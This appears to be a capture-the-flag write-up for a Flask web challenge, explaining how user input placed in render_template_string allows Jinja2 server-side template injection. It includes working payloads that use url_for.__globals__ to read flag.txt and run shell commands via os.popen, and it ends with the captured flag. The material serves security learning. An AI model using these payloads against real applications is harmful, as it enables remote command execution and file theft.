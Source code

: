 # Trial by fire (Web)

Looking at index.html, I'm very confident the application is vulnerable to SSTI.

```
 <p class="nes-text">
	In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
	<br><br>
	Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
	<br><br>
	Can you read the runes? Perhaps {{ 7 * 7 }} is the key.
</p>
```

Next, look at flamedrake.html. Upon examining the 'code', I got this hint

```
<script type="module">
    import { DragonGame } from '/static/js/game.js';
    import { addVisualEffects } from '/static/js/effects.js';

    const game = new DragonGame();
    game.init();
    addVisualEffects(game);

    // Konami code sequence to reveal the leet (Ancient Capture Device) button
    // const konamiCode = ['ArrowUp', 'ArrowUp', 'ArrowDown', 'ArrowDown', 'ArrowLeft', 'ArrowRight', 'ArrowLeft', 'ArrowRight', 'b', 'a'];
    const konamiCode = ['ArrowUp'];
    let konamiIndex = 0;

    document.addEventListener('keydown', (e) => {
      if (e.key === konamiCode[konamiIndex]) {
        konamiIndex++;
        if (konamiIndex === konamiCode.length) {
          document.querySelector('.leet').classList.remove('hidden');
          konamiIndex = 0;
        }
      } else {
        konamiIndex = 0;
      }
    });
  </script>
```

​![image](assets/image-20250322222331-w4sssmf.png)​

Googling it brought me to [this](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/), [this](https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e), [this](https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation), and this other [post](https://infosecwriteups.com/ssti-bypassing-single-quotes-filter-dc0ee4e4f011) about SSTI.

After examining the code (routes.py, flamedrake.html), it takes your warrior_name input -> stores it as a sessions variable -> loads it in flamedrake.html. However, {{ warrior_name }} in flamedrake.html is NOT vulnerable to SSTI

* my guess is because flamedrake.html uses render_template() instead of render_template_string()
* As explained [in this post](https://semgrep.dev/docs/cheat-sheets/flask-xss) I found and the [flask documentation](https://flask.palletsprojects.com/en/stable/api/#flask.render_template), render_template statically renders html along with any *context parameters* declared.

​![image](assets/image-20250322232248-j7baeag.png)​

However, battle_report() uses render_string_template(), making it susceptible according to [portswigger](https://portswigger.net/web-security/server-side-template-injection#detect)

​![image](assets/image-20250322232431-f6vwvic.png)​

```
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```

Now that we have identified the vulnerable component, let's use `{{ url_for.__globals__ }}`​ to identify all global classes/variables we can use to read flag.txt

```
...blahblahblah...
'os': <module 'os' (frozen)>
'open': <built-in function open>
...blahblahblah...
```

We have the os module. [Frozen](https://stackoverflow.com/questions/9916432/what-is-a-frozen-python-module) just means we are able to run OS (bash, cmd) commands using the python module alone.

​![image](assets/image-20250322234317-37p1ot4.png)​

Now, let's read flag.txt

```
{{url_for.__globals__.__builtins__.open("./flag.txt").read()}}
{{url_for.__globals__.os.popen('cat flag.txt').read()}}
```

Edit the maxlength in the input html field since there's nothing validating that on the server-side.

​![image](assets/image-20250322235217-sg19nlr.png)​

​![image](assets/image-20250322235142-x7irqid.png)​

​![image](assets/image-20250322235955-z1lb07a.png)​

HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_4e824b1c0385b6e1c699db4043748383}

‍

PS: https://payatu.com/blog/server-side-template-injectionssti/#Exploitation provides more possible payloads
